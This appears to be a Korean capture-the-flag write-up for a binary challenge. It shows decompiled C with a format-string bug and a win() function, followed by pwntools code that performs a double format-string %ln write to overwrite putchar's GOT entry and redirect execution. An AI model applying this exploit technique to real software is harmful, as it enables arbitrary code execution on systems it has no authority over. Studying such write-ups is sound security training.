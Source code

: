 ## 함수 분석 / 취약점 발견
### IDA decmopile analysis
1. 목표로 하는 함수는 다음과 같다. 어딘가의 ret 주소, got 주소를 변환해 일로 오게 하고 싶다. local에서 익스할때 flag 파일을 만들어 실험했다.
```c++
int win()
{
  return system("cat flag");
}
```
2. name과 desc에 입력을 받고 이를 두번 printf하는데, 딱봐도 double FSB 각이 나온다.
```c++
  maxlen -= readline(name, 128);
  desc = (char *)malloc(0x20uLL);
  printf("Desc: ");
  readline(desc, 32);
  ...
      case 3:
        printf(name);
        printf(desc);
        putchar(10);
```
3. putchar의 got가 존재한다.
* double FSB를 하고 3을 입력해 putchar의 got에 win의 주소를 넘겨주자.

## 구현
1. name에서 스택의 특정 부분에 putchar의 got 삽입
```python
putchar_got_addr = 0x602020
win_addr = 0x40094c

payload = b'%' + str(putchar_got_addr).encode() + b'x%11$ln' + b'a'*40
p.sendlineafter('Name: ', payload)
```

2. desc에서 putchar의 got에 win의 주소 삽입
```python
payload = b'%' + str(win_addr).encode() + b'x%37$ln '
p.sendlineafter('Desc: ', payload)

p.sendafter('> ', '3')

p.interactive()
```
* remote익스의 환경과 local 익스의 환경이 달라 애먹었다.
    * OS의 초기 루틴이 달라 stack에 있는 쓰레기값들이 달라진다.